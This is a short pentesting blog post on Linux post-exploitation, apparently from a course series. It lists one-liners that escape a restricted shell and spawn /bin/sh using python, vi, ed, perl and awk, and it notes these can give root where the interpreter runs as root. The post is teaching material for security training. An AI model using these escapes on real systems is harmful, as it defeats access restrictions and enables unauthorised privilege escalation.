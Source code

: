 ```yaml
---
layout: post
published: true
title: Linux Post Exploitation 10.2
tags:
  - PWP
  - Intermediate
  - Linux Post Exploitation
comments: true
---
```

## Linux Manual Escalation



## Introduction

**_In this blog post we will discuss some approaches in order to escalate our privileges. I recommend to learn this techniques in depth to use them in future_**


## Bypassing restricted shell 

Suppose you got successfull access to target system but you're unable to execute some commands on it, its restricting to do so.

Some basic approaches to bypass restricted shell and get fully interactive system shell and this techniques also can be used to escalate privileges from user to root(depends on target system configuration).

Using python
```
python3 -c "import pty;pty.spawn('/bin/sh');"
```
```
python3 -c 'import os; os.system("/bin/sh");'
```

It can also give you root privileges if python execute as root.

Using vi

```
vi
:set shell=/bin/sh
:shell
```

Using ed
```
ed
! '/bin/sh'
```

Using Perl
```
perl -e 'system("/bin/sh");'
```
Using awk
```
awk 'BEGIN {system("/bin/sh")}'
```
